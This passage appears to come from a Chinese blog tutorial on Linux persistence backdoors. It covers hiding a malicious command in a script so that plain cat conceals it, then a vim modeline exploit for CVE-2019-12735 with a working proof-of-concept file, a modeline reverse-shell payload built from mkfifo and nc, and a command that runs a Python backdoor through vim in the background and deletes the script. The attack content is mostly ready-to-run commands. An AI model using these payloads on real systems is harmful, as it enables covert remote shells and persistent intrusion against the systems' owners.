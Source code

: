 使用 py 生成了一个 test.sh 脚本，同目录下只有他本文件，cat 查看一下：

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220616509-925341340.png)

执行一下 test.sh：

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220738695-372605639.png)

cat -A 再次查看一下：

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220835294-1217326615.png)

其实可以看出来这样就做到了恶意命令隐藏的效果。其实之前 Cron 后门中的隐藏方法就是利用了这个。如果使用 cat -A 查看 root 文件的话就可以看到计划任务的真正内容了。

### 0x07 Vim 后门

#### vim modeline(CVE-2019-12735)

该漏洞存在于编辑器的 modeline 功能，部分 Linux 发行版默认启用了该功能，macOS 是没有默认启用。 当 vim 打开一个包含了 vim modeline 注释行的文件时，会自动读取这一行的参数配置并调整自己的设置到这个配置。vim 默认关闭 modeline。

开启命令：

```
vim ~/.vimrc
set modeline


```

当前目录下创建文件：

```
echo ':!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="' > hello.txt
vim hello.txt


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200306165831251-1080934852.png)

反弹 shell：

```
:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 9999 >/tmp/f||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="


```

#### vim python 扩展后门

适用于安装了 vim 且安装了 python 扩展 (绝大版本默认安装) 的 linux 系统。

```
cd /usr/lib/python2.7/site-packages && $(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py


```
